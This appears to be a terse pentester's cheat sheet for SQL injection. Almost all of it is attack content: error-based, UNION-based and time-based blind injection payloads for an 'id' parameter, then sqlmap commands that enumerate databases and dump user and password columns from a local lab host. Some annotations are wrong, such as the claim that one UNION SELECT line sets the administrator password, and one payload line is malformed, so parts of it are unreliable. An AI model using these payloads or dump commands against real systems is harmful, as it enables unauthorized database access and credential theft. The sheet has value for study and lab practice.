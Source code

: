 Types:  
Error base, blind  
Example:  
`id='` > error in syntax (to see if there is responce)  
`id=''''`  
``id=/`/`` > without escape  
`id=[]=)`  
`id=1'`  
`id=1'+AND+1=1--+`  
`id='+UNION+SELECT+1--+`  
`id='+UNION+SELECT+1,2--+`  
`id='+UNION+SELECT+1,2,3--+`  
`id='+UNION+SELECT+1,2,3,4--+`  
`id='+UNION+SELECT+1,fakename,3--+`  
`id='+UNION+SELECT+1,2,title,3--+`  
`id='+UNION+SELECT+1,2,3,4 from fakename--+`  
`id='+UNION+SELECT+'123'+AS+password+from+admins+WHERE+'1'='1'` > set administrator password to 123  
`id=1'''' AND 1=1--` > true  
`id=1'''' AND 1=2--` > false  
`1' AND sleep(5)--` >delay  
`'; WAITFOR DELAY '0:0:5'--` > delay  
`id=1' (IF TRUE/VALID STATMENT) THEN SLEEP(5) SELECT SUBSTRING (string, start, value)`  
`id=1' AND substring(@@version,1,1)=5`

==SQLmap==
```sqlmap -u ""http://192.168.0.101/"" --cookie=""PHPSESSID=;security=low""``` > scan sql map (dwanvurlnapp) cookie from burp
```--dbs```  > list databases
```-D mysql --tables``` > check tables from specific database
```-C user,password --dump``` > dumping tables

Tools
polyglot sqli - https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Polyglots/SQLi-Polyglots.txt
commix - https://github.com/commixproject/commix
cmdi - https://githubhelp.com/Vladimir-Ivanov-Git/blind
https://owasp.org/www-community/attacks/Command_Injection

